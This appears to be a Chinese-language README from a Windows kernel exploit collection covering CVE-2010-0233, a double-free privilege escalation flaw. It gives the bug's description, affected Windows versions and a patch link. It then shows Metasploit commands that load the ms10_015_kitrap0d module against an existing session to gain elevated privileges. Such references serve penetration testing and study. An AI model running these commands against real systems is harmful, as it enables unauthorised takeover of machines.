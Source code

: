 ### CVE-2010-0233

#### 描述

Double free vulnerability in the kernel in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP2, Vista Gold, SP1, and SP2, and Server 2008 Gold and SP2 allows local users to gain privileges via a crafted application, aka "Windows Kernel Double Free Vulnerability."

#### 影响版本

| Product             | Version | Update | Edition | Tested |
| ------------------- | ------- | ------ | ------- | ------ |
| Windows 2000        | SP4     |        |         |        |
| Windows Server 2003 |         | SP2    |         |        |
| Windows Server 2008 | -       | SP2    | Itanium |        |
| Windows Server 2008 |         | SP2    | X64     |        |
| Windows Server 2008 |         |        | Itanium |        |
| Windows Server 2008 |         |        | X32     |        |
| Windows Server 2008 |         |        | X64     |        |
| Windows Server 2008 | SP2     | X32    |         |        |
| Windows Vista       |         |        |         |        |
| Windows Vista       | SP1     |        |         |        |
| Windows Vista       | SP2     |        |         |        |
| Windows Xp          | -       |        |         |        |
| Windows Xp          | SP3     |        |         |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2010-0233
```

#### 利用方式

编译环境

- nmake 2013

测试系统windows server 2003 sp2 x86

![25](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86.gif?raw=true)

> msf利用

测试系统windows server 2003 sp2 x86，执行以下代码

```
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 3
run
```

可以看到当前权限是最低的

![image-20200823123824229](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf.png?raw=true)

然后执行命令提权

![image-20200823123945054](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf2.png?raw=true)